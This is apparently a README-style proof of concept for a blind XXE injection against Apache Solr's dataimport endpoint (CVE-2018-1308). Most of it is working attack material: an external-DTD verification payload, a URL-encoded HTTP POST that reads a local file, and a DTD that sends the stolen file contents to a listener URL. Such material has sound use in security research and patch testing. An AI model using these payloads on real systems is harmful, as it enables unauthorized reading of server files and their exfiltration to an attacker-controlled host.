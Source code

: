 ### XXE injection

#### Blind XXE injection
1. just for verifying XXE.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;]>
<root/>
```

2. extract file content from target system
```http
POST /solr/new_core/dataimport HTTP/1.1
Host: cqq.com:8983
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

command=full-import&dataConfig=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY %25 file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY %25 remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%25remote%3b
%25all%3b
]>
<root>%26send%3b</root>
```
The original xml content is as follows:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
but if we use this content directly, we will end up with a expection liks this:
![](imgs/sc_20190828162051.png)
if we urlencode `%`, `;` and `&`, we will successfully read the content of the target file.
![](imgs/sc_20190828162401.png)
while the content of `/Users/Shared/cccc` is: `shadowsock5`.
while the content of `http://127.0.0.1:8000/xxe.dtd` is:
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8888/?content=%file;'>">
```
Demo:
![](imgs/sc_20190828163109.png)

####
This is also the PoC of [CVE-2018-1308](https://mail-archives.apache.org/mod_mbox/www-announce/201804.mbox/%3C000001d3cf68%245ac69af0%241053d0d0%24%40apache.org%3E)

#### Ref
- http://ceye.io/payloads
- https://blog.csdn.net/u011721501/article/details/43775691
